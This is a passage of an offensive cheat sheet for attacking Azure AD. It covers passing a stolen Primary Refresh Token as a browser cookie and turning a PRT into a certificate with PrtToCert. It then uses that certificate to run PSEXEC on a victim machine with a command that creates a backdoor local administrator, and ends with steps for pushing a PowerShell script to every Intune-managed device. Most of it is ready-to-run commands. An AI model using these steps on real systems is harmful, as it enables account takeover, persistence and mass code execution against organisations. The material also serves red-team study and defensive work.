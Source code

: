 The `<Signed JWT>` (JSON Web Token) can be used as PRT cookie in a (anonymous) browser session for https://login.microsoftonline.com/login.srf.    
Edit the Chrome cookie (F12) -> Application -> Cookies with the values:

```powershell
Name: x-ms-RefreshTokenCredential
Value: <Signed JWT>
HttpOnly: √
```

:warning: Mark the cookie with the flags `HTTPOnly` and `Secure`.


## Pass The Certificate

```ps1
Copy-Item -ToSession $jumpvm -Path C:\Tools\PrtToCertmaster.zip -Destination C:\Users\Username\Documents\username –Verbose
Expand-Archive -Path C:\Users\Username\Documents\username\PrtToCert-master.zip -DestinationPath C:\Users\Username\Documents\username\PrtToCert

# Require the PRT, TenantID, Context and DerivedKey
& 'C:\Program Files\Python39\python.exe' C:\Users\Username\Documents\username\PrtToCert\RequestCert.py --tenantId <TENANT-ID> --prt <PRT> --userName <Username>@<TENANT NAME>.onmicrosoft.com --hexCtx <HEX-CONTEXT> --hexDerivedKey <HEX-DERIVED-KEY>
# PFX saved with the name <Username>@<TENANT NAME>.onmicrosoft.com.pfx and password AzureADCert
```

Python tool that will authenticate to the remote machine, run PSEXEC and open a CMD on the victim machine

https://github.com/morRubin/AzureADJoinedMachinePTC

```ps1
Main.py [-h] --usercert USERCERT --certpass CERTPASS --remoteip REMOTEIP
Main.py --usercert "admin.pfx" --certpass password --remoteip 10.10.10.10

python Main.py --usercert C:\Users\Username\Documents\username\<USERNAME>@<TENANT NAME>.onmicrosoft.com.pfx --
certpass AzureADCert --remoteip 10.10.10.10 --command "cmd.exe /c net user username Password@123 /add /Y && net localgroup administrators username /add"
```

## Intunes Administration

Requirements:
* **Global Administrator** or **Intune Administrator** Privilege : `Get-AzureADGroup -Filter "DisplayName eq 'Intune Administrators'"`

1. Login into https://endpoint.microsoft.com/#home or use Pass-The-PRT
2. Go to **Devices** -> **All Devices** to check devices enrolled to Intune
3. Go to **Scripts** and click on **Add** for Windows 10. 
4. Add a **Powershell script**
5. Specify **Add all users** and **Add all devices** in the **Assignments** page.
